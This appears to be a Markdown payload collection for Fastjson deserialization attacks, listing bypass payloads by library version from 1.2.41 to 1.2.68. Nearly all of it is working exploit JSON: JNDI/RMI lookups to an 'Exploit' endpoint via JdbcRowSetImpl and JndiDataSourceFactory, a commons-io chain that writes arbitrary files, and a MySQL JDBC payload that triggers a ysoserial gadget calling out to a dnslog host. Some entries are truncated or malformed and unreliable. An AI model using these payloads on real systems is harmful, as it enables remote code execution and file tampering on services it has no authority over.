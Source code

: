 #### 1.2.41
```json
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}
```

#### 1.2.42
```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};
```

#### 1.2.43
```json
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}
```

#### 1.2.45
```json
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}
```

#### 1.2.47
```json
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}}
```


#### 1.2.68 commons-io的随缘的文件写入：
依赖2.6或者2.4？
```xml
        <dependency>
            <groupId>commons-io</groupId>
            <artifactId>commons-io</artifactId>
            <version>2.6</version>
        </dependency>
```

payload:
```json
{"cqq":{"@type":"java.util.Currency","val":{"currency":{"writer":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"/Users/xxx/GitProjects/demo/output.txt","encoding":"UTF-8"},"outputStream":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writeImmediately":true,"bufferSize":4,"charsetName":"UTF-8","writer":{"$ref":"$.currency.writer"}},"charInputStream":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.CharSequenceInputStream","charset":"UTF-8","bufferSize":4,"s":{"@type":"java.lang.String""test by cqq!

```

#### 1.2.68 jdbc反序列化
```json
{"@type":"java.lang.AutoCloseable", "@type":"com.mysql.jdbc.JDBC4Connection","hostToConnectTo":"172.20.64.40","portToConnectTo":3306,"url":"jdbc:mysql://172.20.64.40:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","databaseToConnectTo":"test","info":{"@type":"java.util.Properties","PORT":"3306","statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor","autoDeserialize":"true","user":"yso_URLDNS_http://ahfladhjfd.6fehoy.dnslog.cn","PORT.1":"3306","HOST.1":"172.20.64.40","NUM_HOSTS":"1","HOST":"172.20.64.40","DBNAME":"test"}}
```
